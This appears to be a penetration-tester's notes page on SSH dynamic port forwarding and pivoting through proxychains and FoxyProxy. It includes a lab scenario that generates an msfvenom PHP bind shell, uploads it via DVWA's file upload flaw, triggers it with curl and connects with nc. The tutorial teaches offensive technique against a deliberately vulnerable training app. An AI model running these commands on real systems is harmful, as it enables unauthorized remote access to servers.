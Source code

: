 # Dynamic Port Forwarding

## 01 - Usage

```
$ cat /etc/ssh/sshd_config
..[snip]..
AllowTcpForwarding yes
..[snip]..
```

`$ ssh <username>@<pivot_IP> -D1080`

- Method 1: `proxychains`

```
$ cat /etc/proxychains4.conf
..[snip]..
socks4  127.0.0.1 1080

$ proxychains firefox <target_IP>
```

- Method 2: FoxyProxy

You can use a **FoxyProxy** firefox extension to create a pattern

![[01 - New SOCKS Proxy Configuration.png]]

Then select **SOCKS4 Proxy** that you've created.

![[02 - FoxyProxy Select SOCKS Proxy Pattern.png]]

- Method 3: Firefox's Network Settings

You can go to Firefox's **Network Settings**

![[03 - Firefox Network Settings.png]]

Then edit the **SOCKS Host**

![[04 - Firefox Manual Proxy Configuration.png]]

## 02 - Scenarios

### 2.1 - Bind Shell via Proxychains

TODO: Make a network topology diagram to illustrate the pivoting scenario

Let's say we were able to compromise the machine and got the SSH credentials and finally establish the SSH server as a foothold to start a socks proxy dynamic port forwarding 1080

`$ ssh -NTfCq -D1080 vagrant@10.0.2.10`

![[01 - Linux Machine Pivoting.png]]

Then we configure the SOCKS4/SOCKS5 through **FoxyProxy** firefox extension with the following settings

![[02 - FoxyProxy SOCKS Proxy Configuration.png]]

Then we choose the **SOCKS4 Proxy** to make connection to the webserver

![[03 - Select FoxyProxy Pattern.png]]

We will use the **DVWA (Damn Vulnerable Web Application)** as an example to simulate the cyber attack of the file upload vulnerability

![[04 - DVWA File Upload Webpage.png]]

We generate a PHP bind shell then we upload it.

`$ msfvenom -p php/bind_php lport=8888 -f raw -o shell.php`

![[05 - Callback Shell Uploaded.png]]

Then we must activate the PHP bind shell to start a listener of port **8888** and there are two ways to do it:

- Method 1: Navigate through the URL with FoxyProxy

Using any web browser like firefox to navigate the path of the URL.

![[06 - Navigate URL FoxyProxy.png]]

- Method 2: Proxychains with cURL

Using the `curl` command with `proxychains` to execute the webserver while pivoting.

`$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/shell.php`

It starts a listening port of **8888** that is awaiting for connection from the compromised webserver

```
$ ss -lnt
State        Recv-Q       Send-Q             Local Address:Port               Peer Address:Port       Process
LISTEN       0            128                      0.0.0.0:8888                    0.0.0.0:*
LISTEN       0            511                            *:80                            *:*
```

Establishing the bind shell to execute further commands by entering the IP address and the Port that we've generated the bind shell.

`$ proxychains nc 192.168.56.106 8888`

![[07 - Callback Shell via Proxychains.png]]

This can be applied with webshells like [[Tactics && Techniques && Procedures (TTPs) Phases/Initial Access/Callback Shells/Webshells/Webshells#^e8491c|weevely]] as well.

---
## References

- [PayloadsAllTheThings: Network Pivoting Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

- [FareedFauzi OSCP Playbook: Port Forwarding SSH Tunneling](https://fareedfauzi.gitbook.io/oscp-notes/others/port-forwarding-ssh-tunneling)

- [Certcube: Pivoting and SSH Port Forwarding Basics](https://blog.certcube.com/pivoting-and-ssh-port-forwarding-basics/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

- [RawSec: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Scenarios

- [Anestis Bechtsoudis: Using SSH Socks Proxies with MSF Reverse TCP Payloads](https://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html)